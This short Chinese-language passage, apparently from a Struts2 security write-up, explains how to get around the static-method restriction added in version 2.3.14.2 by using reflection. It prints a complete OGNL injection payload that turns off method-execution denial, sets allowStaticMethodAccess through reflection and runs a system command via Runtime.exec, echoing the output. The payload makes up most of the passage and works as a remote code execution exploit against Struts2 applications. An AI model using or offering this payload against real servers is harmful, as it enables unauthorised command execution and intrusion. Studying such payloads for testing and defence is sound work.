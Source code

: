 此外，2.3.14.2 版本开始无法使用过去常用的 `#_memberAccess['allowStaticMethodAccess']=true` 来开启静态方法调用，此时可以通过反射机制来开启。

```java
%{#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true),#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream()),#q}.action
```

![图 4](4.png)

![图 5](5.png)
